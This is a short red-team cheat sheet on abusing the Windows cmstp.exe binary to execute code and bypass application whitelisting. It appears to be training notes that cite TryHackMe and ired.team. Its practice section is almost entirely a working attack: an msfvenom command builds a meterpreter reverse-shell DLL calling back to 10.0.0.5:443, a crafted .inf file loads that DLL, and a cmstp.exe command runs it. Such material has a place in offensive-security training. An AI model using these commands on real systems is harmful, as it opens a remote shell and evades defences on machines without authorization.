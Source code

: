 # CMSTP

## Theory

Cmstp.exe is a indows binary that allow administrator to installs or removes a Connection Manager service profile. As a red teamer, we can abuse it to execute code and bypass application whitelisting.

## Practice

{% tabs %}
{% tab title="cmstp.exe" %}
First, generate a reverse shell as dll

```bash
v4resk@kali$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```

Creating a file that will be loaded by CSMTP.exe binary that will in turn load our evil.dll:

```bash
#f.inf
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```

Now, we can invoke the payload:

```bash
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/t1191-cmstp-code-execution" %}
